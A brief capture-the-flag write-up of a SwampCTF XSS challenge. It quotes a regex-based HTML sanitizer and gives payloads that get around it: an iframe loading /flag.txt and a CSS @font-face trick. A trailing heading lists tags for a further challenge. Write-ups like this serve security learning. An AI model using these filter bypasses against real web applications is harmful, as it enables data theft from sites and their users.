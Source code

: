 Grab the flag from the `http://chals.swampctf.com:47821/flag.txt` file on the server to show that this isn't the case.

The flag is in the standard format. Good luck!

[http://chals.swampctf.com:47821](http://chals.swampctf.com:47821)

### Challenge 
XSS challenge leak the flag at `http://chals.swampctf.com:47821/flag.txt`  

`app.component.ts`
```ts
  private updateRenderedPage = (html: string, css: string) => {
	const content = html
		.replace(/<script[\s\S]*?>[\s\S]*?<\/script>/gi, "")
		.replace(/\son\w+="[^"]*"/gi, "")
		.replace(
			/<style class=['"]custom-user-css['"]><\/style>/,
    		`<style class='custom-user-css'>${css}</style>`
   		);

    const iframeDoc = this.previewIframe?.nativeElement.contentDocument!;
    iframeDoc?.open();
    iframeDoc?.write(content);
    iframeDoc?.close();
  }

```
### Solution
Saw iframes being used and tried leaking using it 
```html
<iframe src="/flag.txt"></iframe>
```

Apparently the intended way is to use e CSS `@import url()`

writeups from other players
```css
  @font-face {
    font-family: 'flag';
    src: url('http://chals.swampctf.com:47821/flag.txt');
  }
  body {
    font-family: 'flag', sans-serif;
    content: "Flag is being loaded as a font (check server logs)";
  }
```

![](_attachments/Pasted%20image%2020250330052757.png)

## SwampTech Solutions
#blackbox #view-src #IDOR #XXE
